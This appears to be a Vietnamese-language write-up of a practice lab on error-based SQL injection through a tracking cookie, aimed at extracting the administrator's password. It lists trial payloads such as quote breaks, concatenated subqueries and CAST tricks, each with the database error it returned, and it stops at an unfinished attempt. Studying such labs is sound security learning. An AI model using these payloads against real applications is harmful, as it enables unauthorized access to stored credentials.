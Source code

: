 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection dựa trên lỗi hiển thị trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về, nhưng lỗi được hiển thị.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.

# Yêu cầu:
- Tìm cách để lộ mật khẩu của người dùng administrator.

# Solution:

- '

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER''. Expected char

- '-- -> 200

- '' -> 200

- '||  ||'

- '|| (SELECT password FROM users WHERE username = 'administrator') ||'
  
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (SELECT password FROM users WHERE userna'. Expected  char
- Có vẻ như chỗ này bị giới hạn số lượng từ trong truy vấn

- '|| (CAST(SELECT password FROM users)) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- '|| (CAST(SELECT password FROM users) AS int) ||'

Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (CAST(SELECT password FROM users) AS int'. Expected  char

- '|| (CAST(SELECT 1) AS int) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- 'AND CAST((SELECT 1) AS int)--

ERROR: argument of AND must be type boolean, not type integer

- 'AND 1=CAST((SELECT 1) AS int)--












